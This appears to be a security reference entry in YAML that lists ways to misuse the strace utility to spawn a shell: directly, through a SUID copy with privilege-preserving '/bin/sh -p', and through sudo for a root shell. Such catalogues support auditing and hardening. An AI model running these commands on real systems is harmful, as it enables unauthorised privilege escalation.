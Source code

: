 ```yaml
---
functions:
  shell:
    - code: strace -o /dev/null /bin/sh
  suid:
    - code: ./strace -o /dev/null /bin/sh -p
  sudo:
    - code: sudo strace -o /dev/null /bin/sh
---
```

